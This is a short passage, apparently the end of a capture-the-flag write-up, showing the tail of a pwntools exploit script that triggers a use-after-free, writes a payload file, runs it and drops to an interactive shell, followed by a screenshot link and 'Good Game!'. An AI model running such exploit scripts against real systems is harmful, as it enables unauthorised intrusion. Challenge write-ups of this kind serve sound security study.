 ```python
	p.recvuntil("free")
	p.sendline("1")

	pwn.log.info("Use-After-Free triggerd! Enjoy the shell")
	p.interactive()

def main():
	filename = "/tmp/a"
	f=open(filename, "wb")
	payload = generate_payload()
	f.write(payload)
	f.close()
	execute(filename)


if __name__ == "__main__":
	main()
```
![exploit](https://github.com/user-attachments/assets/159ac6b7-9058-4524-9932-c5e9e91715f1)



Good Game!
